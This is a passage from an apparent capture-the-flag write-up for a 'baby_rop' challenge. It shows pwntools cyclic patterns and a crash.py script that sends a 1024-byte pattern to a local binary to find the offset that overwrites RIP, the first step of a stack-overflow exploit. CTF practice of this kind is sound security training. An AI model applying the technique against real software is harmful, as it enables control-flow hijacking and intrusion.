 To control the execution flow, we need to first find out the exact offset of the string that overwrites RIP. To do that, I used pwnlib's cyclic() function:

{% highlight python %}
>>> from pwn import *
>>> cyclic(32, n=8)
'aaaaaaaabaaaaaaacaaaaaaadaaaaaaa'
>>> cyclic_find('aacaaaaa', n=8)
14
>>> 
{% endhighlight %}

As you can see in the example above, the function just generates a cyclic pattern. The cyclic_find function is able to find the position of a given substring in that pattern. The optional parameter 'n' basically tells pwnlib that we're going to know at least 8 characters / bytes of the substring given to cyclic_find. Knowing this, we can easily modify crash.py to include cyclic():

{% highlight bash %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += cyclic(1024, n=8).encode()

io.sendline(payload)
io.interactive()
{% endhighlight %}

After running it, we can see the return address changed to 0x6261616161616169:

![gdb-peda crash 2](/images/baby_rop/gdb-2.png)
